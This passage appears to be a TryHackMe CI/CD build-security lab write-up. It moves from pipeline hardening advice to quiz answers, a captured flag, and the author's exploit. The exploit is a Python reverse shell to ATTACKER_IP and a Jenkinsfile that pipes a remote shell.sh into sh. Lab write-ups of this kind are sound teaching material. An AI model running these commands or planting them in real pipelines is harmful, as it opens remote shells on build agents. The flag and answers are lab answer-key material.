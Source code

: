 ## 8. **Monitoring and Logging**
   - **Monitor Builds**: Implement logging and monitoring for build activity, including unusual or unauthorized actions.
   - **Integrate Security Monitoring**: Link CI/CD logs with broader security monitoring systems for better visibility into build pipeline activity.

## 9. **Common Configuration Pitfalls to Avoid**
   - **Avoid On-Merge Builds for External Contributors**: This can expose build agents to arbitrary code from forked repositories, potentially compromising systems.
   - **Control Access to CI Files**: Only authorized users should be able to edit pipeline configurations (like Jenkinsfiles), preventing tampering with build instructions.

By adopting these practices, you can enhance the security posture of your CI/CD build process, minimizing the risk of compromise and ensuring code integrity from the outset.

### Where should you store artefacts to prevent tampering?
secure registry

### What mechanism should you always use to store and inject sensitive data?
secret management

### What attack can malicious actors perform to inject malicious code in the build process?
dependency confusion

### Authenticate to Mother and follow the process to claim Flag 1. What is Flag 1?
THM{7753f7e9-6543-4914-90ad-7153609831c3}

For this I used :

```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

```


```py
python3 -m http.server 8080
```


```textarea

pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://ATTACKER_IP:8080/shell.sh | sh
                '''                 
              }             
          }
       }       
    }

```
